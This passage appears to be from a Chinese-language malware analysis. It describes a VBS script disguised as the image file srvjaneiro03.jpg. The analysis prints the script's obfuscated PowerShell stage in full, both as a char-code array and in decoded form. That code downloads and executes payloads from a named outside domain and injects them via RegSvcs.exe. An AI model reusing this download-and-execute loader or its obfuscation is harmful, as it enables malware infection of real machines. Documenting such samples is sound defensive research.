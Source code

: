 ### <a class="reference-link" name="srvjaneiro03.jpg"></a>srvjaneiro03.jpg

下载到本地的srvjaneiro03.jpg实际上为一个vbs脚本，脚本最开始会给&lt;f&gt;变量赋值，然后通过替换去除混淆内容，再通过Fly函数调用powershell执行

[![](https://p5.ssl.qhimg.com/t011c06eee1bc0ebfea.png)](https://p5.ssl.qhimg.com/t011c06eee1bc0ebfea.png)

最终会解密执行如下的powershell代码：

`Powershell $OSAFIUASOFIHKLJHFSGPSATYPEWFASHGLSDJFG=@(100,111,32,123,36,112,105,110,103,32,61,32,116,101,115,116,45,99,111,110,110,101,99,116,105,111,110,32,45,99,111,109,112,32,103,111,111,103,108,101,46,99,111,109,32,45,99,111,117,110,116,32,49,32,45,81,117,105,101,116,125,32,117,110,116,105,108,32,40,36,112,105,110,103,41,59,36,112,50,50,32,61,32,91,69,110,117,109,93,58,58,84,111,79,98,106,101,99,116,40,91,83,121,115,116,101,109,46,78,101,116,46,83,101,99,117,114,105,116,121,80,114,111,116,111,99,111,108,84,121,112,101,93,44,32,51,48,55,50,41,59,91,83,121,115,116,101,109,46,78,101,116,46,83,101,114,118,105,99,101,80,111,105,110,116,77,97,110,97,103,101,114,93,58,58,83,101,99,117,114,105,116,121,80,114,111,116,111,99,111,108,32,61,32,36,112,50,50,59,91,118,111,105,100,93,32,91,83,121,115,116,101,109,46,82,101,102,108,101,99,116,105,111,110,46,65,115,115,101,109,98,108,121,93,58,58,76,111,97,100,87,105,116,104,80,97,114,116,105,97,108,78,97,109,101,40,39,77,105,99,114,111,115,111,102,116,46,86,105,115,117,97,108,66,97,115,105,99,39,41,59,36,102,106,61,91,77,105,99,114,111,115,111,102,116,46,86,105,115,117,97,108,66,97,115,105,99,46,73,110,116,101,114,97,99,116,105,111,110,93,58,58,67,97,108,108,66,121,110,97,109,101,40,40,78,101,119,45,79,98,106,101,99,116,32,78,101,116,46,87,101,98,67,108,105,101,110,116,41,44,39,68,111,119,36,95,36,108,111,97,100,83,116,114,105,36,95,36,103,39,46,114,101,112,108,97,99,101,40,39,36,95,36,39,44,39,110,39,41,44,91,77,105,99,114,111,115,111,102,116,46,86,105,115,117,97,108,66,97,115,105,99,46,67,97,108,108,84,121,112,101,93,58,58,77,101,116,104,111,100,44,39,104,116,116,112,58,47,47,101,109,112,114,101,115,97,114,105,97,100,111,104,111,116,101,108,101,105,114,111,46,99,111,109,47,106,97,110,101,105,114,111,50,48,50,48,47,114,110,112,106,97,110,101,105,114,111,48,51,46,106,112,103,39,41,124,73,69,88,59,91,66,121,116,101,91,93,93,36,116,111,116,111,61,91,77,105,99,114,111,115,111,102,116,46,86,105,115,117,97,108,66,97,115,105,99,46,73,110,116,101,114,97,99,116,105,111,110,93,58,58,67,97,108,108,66,121,110,97,109,101,40,40,78,101,119,45,79,98,106,101,99,116,32,78,101,116,46,87,101,98,67,108,105,101,110,116,41,44,39,68,111,119,36,95,36,108,111,97,100,83,116,114,105,36,95,36,103,39,46,114,101,112,108,97,99,101,40,39,36,95,36,39,44,39,110,39,41,44,91,77,105,99,114,111,115,111,102,116,46,86,105,115,117,97,108,66,97,115,105,99,46,67,97,108,108,84,121,112,101,93,58,58,77,101,116,104,111,100,44,39,104,116,116,112,58,47,47,101,109,112,114,101,115,97,114,105,97,100,111,104,111,116,101,108,101,105,114,111,46,99,111,109,47,106,97,110,101,105,114,111,50,48,50,48,47,110,106,97,114,114,111,98,97,106,110,114,48,51,46,106,112,103,39,41,46,114,101,112,108,97,99,101,40,39,64,95,48,39,44,39,48,120,39,41,124,73,69,88,59,36,111,98,106,32,61,64,40,39,82,101,103,83,118,99,115,46,101,120,101,39,44,36,116,111,116,111,41,59,36,103,50,50,61,36,97,46,71,101,116,84,121,112,101,40,39,71,105,118,97,114,97,39,41,59,36,121,61,36,103,50,50,46,71,101,116,77,101,116,104,111,100,40,39,70,114,101,101,68,111,109,39,41,59,36,106,61,91,65,99,116,105,118,97,116,111,114,93,58,58,67,114,101,97,116,101,73,110,115,116,97,110,99,101,40,36,103,50,50,44,36,110,117,108,108,41,59,36,121,46,73,110,118,111,107,101,40,36,106,44,36,111,98,106,41);[char[]]$OSAFIUASOFIHKLJHFSGPSATYPEWFASHGLSDJFG -join ''|I`E`X`

格式化该代码得到：

<code>do `{`$ping = test-connection -comp google.com -count 1 -Quiet`}`<br>
until ($ping);<br>
$p22 = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072);<br>
[System.Net.ServicePointManager]::SecurityProtocol = $p22;<br>
[void] [System.Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');<br>
$fj=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),'Dow$_$loadStri$_$g'.replace('$_$','n'),[Microsoft.VisualBasic.CallType]::Method,'http://empresariadohoteleiro.com/janeiro2020/rnpjaneiro03.jpg')|IEX;<br>
[Byte[]]$toto=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),'Dow$_$loadStri$_$g'.replace('$_$','n'),[Microsoft.VisualBasic.CallType]::Method,'http://empresariadohoteleiro.com/janeiro2020/njarrobajnr03.jpg').replace('[@_0](https://github.com/_0)','0x')|IEX;<br>
$obj =@('RegSvcs.exe',$toto);<br>
$g22=$a.GetType('Givara');$y=$g22.GetMethod('FreeDom');<br>
$j=[Activator]::CreateInstance($g22,$null);$y.Invoke($j,$obj)</code>
